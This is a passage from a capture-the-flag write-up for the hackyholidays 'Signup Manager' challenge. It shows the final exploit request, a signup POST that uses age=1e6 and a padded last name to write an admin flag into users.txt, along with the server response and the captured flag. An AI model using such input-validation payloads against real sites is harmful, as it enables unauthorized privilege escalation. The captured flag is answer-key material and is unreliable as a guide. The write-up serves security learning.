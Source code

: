 where 1e(n) = 1x10 to the power n, thus let's use 1e6 over here.

+ So, our final exploit will be in the signup area where we will insert maximum characters.


**Request**
```
POST /signup-manager/ HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close
Content-Length: 122
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://hackyholidays.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://hackyholidays.h1ctf.com/signup-manager/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

action=signup&username=kunalbrokunal12&password=kunalbrokunal12&age=1e6&firstname=kunalbrokunal12&lastname=YYYYYYYYYYYYYYY
```

**Response**

```
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 31 Dec 2020 14:51:29 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Set-Cookie: token=16e3f0dd617d5ce9dbdba2c5a1f11b2d; expires=Thu, 31-Dec-2020 15:51:29 GMT; Max-Age=3600
Location: /signup-manager/
Content-Length: 0
```

+ After logging in as username- kunalbrokunal12 and password - kunalbrokunal12, we get the flag as we've successfully written the users.txt with capital "Y" at the end.

{F1139655}

```
Admin Area
flag{99309f0f-1752-44a5-af1e-a03e4150757d}

You made it through, continue to your next task here
```
